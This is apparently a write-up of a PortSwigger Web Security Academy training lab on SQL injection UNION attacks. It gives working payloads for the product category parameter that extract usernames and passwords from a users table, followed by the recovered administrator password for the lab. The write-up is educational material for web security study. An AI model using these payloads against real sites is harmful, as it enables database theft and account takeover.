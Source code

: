 # Lab: SQL injection UNION attack, retrieving data from other tables
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.
* Hint:  The database contains a different table called users, with columns called username and password.
To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user. 

#### Exp
1. Using all technique we learned before
According to union-based technique we learned before, we can consider there're 2 columns in this database and both of them are text strings
Payload: `?category=Lifestyle' UNION SELECT 'Title name','Post content'--`
2. Find the detailed info in `users` table
Payload: `?category=Lifestyle' UNION SELECT username, password FROM users--`
3. Login as administrator
Username: `administrator`
Password: `5kg73b7jinl9plif82d3`
    :::spoiler Success Screenshot
    ![](https://i.imgur.com/kiRM6bX.png)
    :::

## Reference